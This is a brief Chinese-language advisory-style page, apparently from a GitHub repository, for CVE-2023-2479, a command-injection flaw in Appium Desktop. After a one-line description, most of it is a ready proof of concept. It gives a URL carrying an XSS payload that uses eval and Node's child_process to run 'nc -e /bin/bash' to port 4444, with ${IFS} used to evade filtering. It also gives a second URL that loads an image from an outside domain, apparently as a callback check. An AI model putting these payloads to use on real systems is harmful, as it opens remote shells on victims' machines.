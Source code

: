 # Appium Desktop CVE-2023-2479漏洞

## Appium Desktop CVE-2023-2479漏洞

appium-desktop 是 Appium 服务器的图形界面，也是一个应用程序检查器

由于用户输入审查不当，此软件包的受影响版本容易受到命令注入的攻击，允许攻击者设置反向 shell。


## poc
```
http://127.0.0.1/?xss=<img/src="1"/onerror=eval("require('child_process').exec('nc${IFS}localhost${IFS}4444${IFS}-e${IFS}/bin/bash');");>

http://127.0.0.1/?url=<img/src="http://nbjfpetfmu.dgrh3.cn"> 

```

